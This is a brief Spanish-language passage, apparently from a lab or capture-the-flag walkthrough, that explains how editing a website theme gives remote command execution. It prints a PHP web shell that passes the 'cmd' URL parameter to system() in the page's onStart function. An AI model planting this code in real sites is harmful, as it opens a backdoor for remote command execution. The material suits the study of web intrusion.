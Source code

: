 ![[Pasted image 20250802125746.png]]

Para poder ejecutar comandos de forma remota, vamos a modificar un tema de la página, para que, mediante una etiqueta `cmd`, poder inyectar comandos.

![[Pasted image 20250802130013.png]]

![[Pasted image 20250802130027.png]]

Aquí dejo el código utilizado:

```php
function onStart()
{
    $this->page["myVar"] = system($_GET['cmd']);
}
```

![[Pasted image 20250802130127.png]]
